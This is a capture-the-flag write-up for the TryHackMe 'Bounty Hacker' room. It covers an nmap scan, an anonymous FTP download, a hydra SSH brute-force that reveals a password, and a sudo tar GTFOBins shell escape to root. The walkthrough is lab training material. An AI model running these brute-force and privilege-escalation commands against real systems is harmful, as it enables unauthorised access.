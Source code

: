 ```yaml
---
title: TryHackMe | Bounty Hacker
author: Zeropio
date: 2022-09-29
categories: [Pentesting, TryHackMe]
tags: [thm, linux]
permalink: /pentesting/tryhackme/bounty-hacker
---
```


# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
```

Try logging with **anonymous** is successful. Now we try getting all the ftp:

```console
zero@pio$ wget -m --no-passive ftp://anonymous@10.10.111.251
```

---

# Fingerprint

We found there a list of possible passwords plus a file signed by **Lin**. We can try bruteforcing the other service we have, ssh:

```console
zero@pio$ hydra -l lin -P locks.txt ssh://10.10.111.251

	[22][ssh] host: 10.10.111.251   login: lin   password: RedDr4gonSynd1cat3
```

---

# Privilege Escalation

We can see that we can use tar:

```console
lin@bountyhacker:$ sudo -l

		(root) /bin/tar
```

We can use this [GTFObin](https://gtfobins.github.io/gtfobins/tar/#sudo) to get a quick access:

```console
lin@bountyhacker:$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```